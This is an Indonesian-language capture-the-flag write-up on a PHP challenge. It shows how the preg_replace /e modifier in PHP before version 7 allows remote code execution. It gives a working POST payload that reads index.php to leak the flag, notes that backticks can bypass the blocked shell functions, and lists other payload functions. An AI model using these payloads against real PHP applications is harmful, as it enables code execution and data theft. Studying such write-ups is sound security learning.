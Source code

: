Pertama kita disuguhkan sebuah Web Untuk Replacement String

![](/pcre/index.png)


Seperti itulah tampilanya. Ada mbak mbak cantik.

Pertama menurut clue, Bug ini terdapat pada versi `< 7 ` jadi pada versi `7` kebawah. Setelah browsing dan mendapat pencerahan pada atikel ini

https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace


Disitu kida mendapatkan RCE jika mengisi Mod FLag dengan `e` dan `replacement` berisi kode kita

Setelah melihat dengan view source beberapa source memungkinkan bisa dilakukanya RCE

```
 <form action="" method="post">
                <input type="text" name="search" placeholder="Search For Replace"><br>
                <select name="mod">
                        <option value="i">Caseless</option>
                        <option value="m">Multiline</option>
                        <option value="s">Dot All</option>
                        <option value="x">Extended</option>
                </select><br>
                <input type="text" name="replacement" placeholder="Replace With"><br>
                <input type="text" name="subject" placeholder="Subject"><br>
                <button type="submit" name="submit">replace</button>
        </form>
```

Pada select `mod` kita bisa menginspect element salah satu value menjadi `e` dan pada `replacement` kita bisa mengisi dengan PHP code.

Tapi kita TIDAK bisa memasukan shell function seperti `system,shell_exec,dll` oke, Berati kita hanya boleh melakukan `php code exec murni` jadi payload saya seperti ini. 

```
search=asd&mod=e&replacement=file_get_contents%28%22index.php%22%29%3B&subject=asdf&submit=
```

EH tapi kita masih bisa mengunakan `backtick` Untuk mengantikan system. 



Dan didapatkan source dari index dan berisi flag juga.

Kita juga dapat mengunakan banyak fungsi seperti

```
-show_source
-fopen
-print
```

Jika mengunakan payload ini kita harus bisa menebak dimana Flag didefine


```
$searc = "(.*)";
$replacement = 'print("\\1")';
$subject = '$flag';
```
 
 Dan masih banyak lagi payload payload lain yang bisa digunakan! Jika kalian ingin mencoba sendiri silahkan upload index.php pada local kalian dan pastikan versi php kalian 5.6 atau kurang
 
 Source Asli Dibuat oleh `Reyvand` dan diedit Oleh Penulis
 
 Nikko Enggaliano
